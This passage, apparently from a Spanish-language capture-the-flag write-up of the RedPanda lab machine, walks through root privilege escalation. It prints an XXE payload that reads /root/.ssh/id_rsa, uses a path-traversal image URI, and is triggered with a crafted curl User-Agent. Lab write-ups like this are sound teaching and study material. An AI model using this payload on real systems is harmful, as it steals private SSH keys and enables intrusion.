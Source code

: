 

A continuación crearemos en `/tmp` o `/home/wookdenk/` un archivo 

xml que apunte a la id_rsa de root, con el nombre definido en la 

imagen más _creds.xml que es lo suma el archivo que encontramos osea `test_creds.xml`.



![list](/assets/img/redpanda/Kali-2022-09-02-02-21-58.png){:.lead width="800" height="100" loading="lazy"}

***

```php
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY key SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/images.jpeg</uri>
    <privesc>&key;</privesc>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```
En test_creds.xml.
{:.note title="Attention"}

***

Para este momento debemos tener la imagen y el .xml en el servidor lo que sigue es hacer un curl 

con el formato que vimos en el archivo como User-Agent


![list](/assets/img/redpanda/Kali-2022-09-02-02-28-02.png){:.lead width="800" height="100" loading="lazy"}


[Hacktricks]: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
[Blog]: https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
[PayloadsAllTheThings]: https://github.com/swisskyrepo/PayloadsAllTheThings
[recurso]: https://ironhackers.es/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/
[tty]: https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys 